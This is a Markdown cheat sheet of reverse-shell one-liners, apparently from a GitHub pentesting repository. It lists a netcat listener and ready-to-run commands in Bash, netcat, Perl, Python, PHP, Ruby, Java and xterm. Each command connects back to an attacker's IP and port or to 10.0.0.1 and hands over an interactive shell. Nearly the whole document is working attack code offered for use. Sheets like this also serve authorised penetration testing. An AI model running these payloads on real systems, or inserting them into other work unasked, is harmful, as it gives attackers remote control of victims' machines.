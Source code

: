 # Reverse Shell

- [Reverse Shell](#reverse-shell)
  - [Listner](#listner)
  - [Bash](#bash)
  - [Netcat](#netcat)
    - [Linux](#linux)
    - [Windows](#windows)
  - [Perl](#perl)
  - [Python](#python)
  - [PHP](#php)
  - [Ruby](#ruby)
  - [Java](#java)
  - [xterm](#xterm)

## Listner

---

```bash
 nc -nvlp $PORt
```

## Bash

---

```bash
bash -i >& /dev/tcp/$IP/$PORT 0>&1
```

## Netcat

---
### Linux

```bash
nc -nv $IP $PORT -e /bin/bash
```

### Windows

```bash
nc.exe -nv $IP $PORT -e cmd
```

Incase, you have different version of netcat:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## Perl

---

```bash
perl -e 'use Socket;$i="$IP";$p=$PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S ,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec(" /bin/bash -i");};'
```

## Python

---

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",$PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP

---

```bash
php -r '$sock=fsockopen("$IP",$PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Ruby

---

```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Java

---

```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port `6001`.

```bash
xterm -display 10.0.0.1:1
```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

```bash
Xnest :1
```

You’ll need to authorise the target to connect to you (command also run on your host):

```bash
xhost +targetip
```

